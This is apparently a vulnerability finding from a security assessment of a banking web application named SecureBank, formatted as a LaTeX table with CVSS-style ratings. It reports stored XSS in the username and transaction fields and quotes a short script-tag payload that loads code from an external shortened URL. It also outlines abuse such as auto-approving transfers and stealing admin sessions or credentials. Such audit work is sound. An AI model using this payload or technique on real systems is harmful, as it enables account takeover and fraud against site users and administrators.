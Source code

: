 \begin{tabular}{l|p{10cm}}
\textbf{Observation} & Stored XSS can be injected via the username when registering and into the purpose field when making transactions. The email used for registration, however, is checked for validity. User names can't be longer than 32 signs. This is just enough to inject something like "$<script src=//bit.ly/1MvAdrm>$". Users who register after this exploit has been used won't be shown, since the end tag is missing. For the transaction's description there is more space, but an account is needed. \\
\textbf{Discovery} & TODO\\
\textbf{Impact} & Using this it's possible to e.g. automatically accept payments of over 10000 as soon as an admin opens the "Approve Transfers" page. Given a user's TAN, it's also possible to transfer their money into one's own account by sending them a manipulated transaction. The manipulated transaction just has to include code that creates a transaction in the victim's name. Furthermore, it's possible to steal sessions or, by injecting fake login forms even credentials of admins. By injecting into the username, the attacker can also auto-accept themselves as real user as soon as an admin opens the "Approve Registrations" tab. \\
\textbf{Likelihood} & High \\
\textbf{Access Vector} & Network \\
\textbf{Access Complexity} & Low\\
\textbf{Privileges Required} & N/L: None for the registration XSS, Low user priviledges for XSS in transactions\\
\textbf{User Interaction} & Yes \\
\textbf{Scope} & Unchanged \\
\textbf{Confidentiality} & High \\
\textbf{Intigrity} & High\\
\textbf{Availability} & Low \\
\end{tabular}

\subsubsection*{SecureBank}

